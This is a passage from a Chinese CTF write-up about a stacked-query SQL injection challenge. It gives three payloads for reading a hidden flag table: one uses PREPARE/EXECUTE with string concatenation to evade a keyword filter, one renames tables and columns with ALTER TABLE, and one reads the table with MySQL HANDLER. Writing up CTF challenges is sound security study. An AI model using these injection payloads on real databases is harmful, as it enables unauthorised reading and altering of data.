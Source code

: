 ```
1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;#
```

![image-20250815092736075](./NSSCTF-5.assets/image-20250815092736075.png)



**先把 SQL 语句的结构发送给数据库编译好（prepare）**

**再单独发送参数（execute）让数据库执行**

### 方法二

也可以通过修改表名和列名来实现。我们输入1后，默认会显示id为1的数据，可以猜测默认显示的是words表的数据，查看words表结构第一个字段名为`id`我们把words表随便改成words1，然后把1919810931114514表改成words，再把列名flag改成id，就可以达到直接输出flag字段的值的效果然后通过`1' or 1 = 1 #`，成功获取到flag。

修改表名：`ALTER TABLE 旧表名 RENAME TO 新表名；`

修改字段：`ALTER TABLE 表名 CHANGE 旧字段名 新字段名 新数据类型；`

```
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table `words` change flag id varchar(100);
```



### 方法三

### .handle

handle不是通用的SQL语句，是Mysql特有的，可以逐行浏览某个表中的数据，格式：

```text
打开表：
HANDLER 表名 OPEN ;
查看数据：
HANDLER 表名 READ next;
关闭表：
HANDLER 表名 READ CLOSE;
```

```
1';HANDLER `1919810931114514` OPEN;HANDLER `1919810931114514` READ FIRST;HANDLER `1919810931114514` CLOSE;
```


